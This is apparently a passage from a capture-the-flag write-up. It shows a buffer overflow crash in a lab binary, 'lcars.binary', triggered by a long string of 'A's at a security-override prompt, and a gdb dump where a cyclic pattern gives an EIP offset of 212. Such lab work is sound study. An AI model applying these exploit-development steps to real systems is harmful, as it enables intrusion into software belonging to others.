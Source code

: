 ``` terminal
[pwnd_root@manjaro Enterprise]$ ./lcars.binary  
 
                 _______ _______  ______ _______ 
          |      |       |_____| |_____/ |______ 
          |_____ |_____  |     | |    \_ ______| 
 
Welcome to the Library Computer Access and Retrieval System 
 
Enter Bridge Access Code:  
picarda1 
 
                 _______ _______  ______ _______ 
          |      |       |_____| |_____/ |______ 
          |_____ |_____  |     | |    \_ ______| 
 
Welcome to the Library Computer Access and Retrieval System 
 
 
 
LCARS Bridge Secondary Controls -- Main Menu:  
 
1. Navigation 
2. Ships Log 
3. Science 
4. Security 
5. StellaCartography 
6. Engineering 
7. Exit 
Waiting for input:  
4 
Disable Security Force Fields 
Enter Security Override: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
```

The same was replicated under gdb. But first an unique pattern of 500 characters was created and was supplied to 
**Security Override**. After the crash, the memory value of *$eip* was searched and the offset was found to be **212**.
```console
[ Legend: Modified register | Code | Heap | Stack | String ] 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ──── 
$eax   : 0x216      
$ebx   : 0x63616162 ("baac"?) 
$ecx   : 0xffffcb40  →  0xf7f88ce0  →  0xfbad2a84 
$edx   : 0x0        
$esp   : 0xffffcd20  →  "eaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqa[...]" 
$ebp   : 0x63616163 ("caac"?) 
$esi   : 0xf7f87e24  →  0x001e7d2c 
$edi   : 0xf7f87e24  →  0x001e7d2c 
$eip   : 0x63616164 ("daac"?) 
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification] 
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ──── 
0xffffcd20│+0x0000: "eaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqa[...]"    ← $esp 
```
